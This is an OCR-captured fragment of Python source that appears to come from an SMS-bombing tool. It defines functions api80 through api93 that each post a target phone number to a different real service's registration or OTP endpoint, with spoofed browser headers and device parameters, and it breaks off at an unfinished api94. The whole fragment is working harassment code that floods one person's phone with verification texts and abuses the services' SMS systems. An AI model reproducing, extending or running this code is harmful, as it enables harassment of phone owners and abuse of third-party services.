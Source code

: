     

def api80(phone):

    get(f"https://findclone.ru/register?phone=+66{phone[1:]}",headers={"X-Requested-With" : "XMLHttpRequest","User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"}).json()

def api88(phone):

    post("https://globalapi.pointspot.co/papi/oauth2/signinWithPhone", data={"phoneNumber": phone})

    

def api89(phone): # QCLOUD

    post("https://api.cashmarket-th.com/app/userinfo/send/smsCode", json={"baseParams":{"platformId":"android","deviceType":"h5","deviceIdKh":"20220118121149smyjjs57jxtqbwkuu74y0vd6p5yzhrmp86872f73364d46d3bf9446ddd583ef61ee8fafe504bab46ec267ca96a99281d6rreqhrlgsg4p3srgv1i5s4pp8u9la6gf1","termSysVersion":"5.1.1","termModel":"A37f","brand":"","termId":"null","appType":"6","appVersion":"2.0.0","pValue":"","position":{"lon":"null","lat":"null"},"bizType":"0000","appName":"Cash Market","packageName":"com.cashmarketth.h5","screenResolution":"720,1280"},"clientTypeFlag":"h5","token":"","phoneNumber":"","timestamp":"1642479101529","bizParams":{"phoneNum": phone,"code":"null","type":200,"channelCode":"hJ071"}})

    

def api90(phone):

    post("https://shopgenix.com/api/sms/otp/",headers=header,data=f"mobile_country_id=1&mobile={phone}")

    

# SME-GP

def api91(phone):

    post("https://api.thaisme.one/smegp/register/request-otp",json={"MOBILE":phone})

    

#YOUROTP

def api92(phone):

    post("https://apiv3.slot999ss.com/front/api/register/set/OTP",data=f"phone={phone}",headers={"content-type": "application/x-www-form-urlencoded;charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    

#Sabuy-Ebuy

def api93(phone):

    post("https://sabuyebuy.com/wp-json/api/v1/get-otp",headers=header,json={"msisdn":f"{phone}"})

    

#FAST-PLUS.

def api94(phone):
